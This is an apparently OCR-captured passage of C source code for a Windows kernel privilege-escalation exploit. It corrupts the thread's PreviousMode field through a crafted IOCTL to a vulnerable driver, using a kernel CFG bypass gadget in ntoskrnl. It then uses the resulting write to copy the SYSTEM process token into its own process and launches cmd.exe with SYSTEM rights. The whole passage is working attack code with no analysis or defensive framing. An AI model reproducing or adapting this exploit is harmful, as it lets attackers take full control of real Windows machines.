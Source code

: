 ```c
	GetObj(&KTHREAD, pid, hThread);
	printf("[+] Current KTHREAD: %p\n", KTHREAD);

	PreviousMode = (UINT64)KTHREAD + 0x232;
	printf("[+] PreviousMode address: %p\n", PreviousMode);

	HANDLE hProc = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, pid);
	GetObj(&EPROCESS, pid, hProc);
	printf("[+] Current EPROCESS: %p\n", EPROCESS);

	GetObj(&SYSTEM_EPROCESS, 4, (HANDLE)4);
	printf("[+] System EPROCESS: %p\n", SYSTEM_EPROCESS);

	NTOSKRNL_BASE = GetImageBase("ntoskrnl.exe");
	printf("[+] ntoskrnl.exe base address : %p\n", NTOSKRNL_BASE);

	PVOID ExpProfileDelete = (UINT64)NTOSKRNL_BASE + 0xA01FD0; // kcfg bypass gadget
	printf("[+] ExpProfileDelete function address : %p\n", ExpProfileDelete);

	PVOID FILE_OBJECT = GetFILE_OBJECT_Address();

	INPUT_BUFFER buffer = { 0, };
	HANDLE dHandle;
	dHandle = CreateFileA(DEVICE_NAME, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, CREATE_NEW, 0, NULL);

	buffer.arg1 = (UINT64)PreviousMode + 0x30;		
	buffer.objptr = FILE_OBJECT;					
	buffer.cfgptr = &ExpProfileDelete;				
	buffer.unknown = NULL;							

	IO_STATUS_BLOCK ioStatus;

	if (pNtDeviceIoControlFile(dHandle, NULL, NULL, NULL, &ioStatus, 0x22A018, &buffer, sizeof(buffer), NULL, &dwbytes) != NOERROR) {
		printf("NtDeviceIoControlFile Failed, 0x%x\n", GetLastError());
	}

	pNtWriteVirtualMemory(GetCurrentProcess(), (ULONGLONG)EPROCESS + 0x4b8, (ULONGLONG)SYSTEM_EPROCESS + 0x4b8, sizeof(ULONGLONG), &dwbytes);

	char* restoreBuffer = (char*)malloc(sizeof(CHAR));
	*restoreBuffer = 1;

	pNtWriteVirtualMemory(GetCurrentProcess(), (ULONGLONG)KTHREAD + 0x232, (PVOID)restoreBuffer, sizeof(CHAR), &dwbytes);

	system("cmd.exe");

	return 0;
}
```

